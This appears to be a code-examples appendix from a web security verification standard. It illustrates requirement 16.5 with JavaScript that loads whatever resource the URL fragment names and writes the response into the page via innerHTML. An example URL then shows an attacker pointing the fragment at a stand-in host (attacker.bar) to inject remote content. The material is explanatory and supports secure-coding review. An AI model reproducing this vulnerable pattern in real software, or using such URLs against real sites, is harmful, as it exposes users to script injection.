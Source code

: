 # Appendix C: Code Examples

This appendix is to show code examples where required.

# V16: File and Resources Verification Requirements
| **16.5** | Verify that untrusted data is not used within cross-domain resource sharing (CORS) to protect against arbitrary remote content. | ✓ | ✓ | ✓ | 2.0 |

```
<script>

var req = new XMLHttpRequest();

req.onreadystatechange = function() {
     if(req.readyState==4 && req.status==200) {
          document.getElementById("div1").innerHTML=req.responseText;
     }
}

var resource = location.hash.substring(1);
req.open("GET",resource,true);
req.send();
</script>
```
```
<body>
<div id="div1"></div>
</body>
```
http://example.foo/main.php#profile.php

Attacker can exploit the case above by using an URL like below:

http://example.foo/main.php#http://attacker.bar/file.php

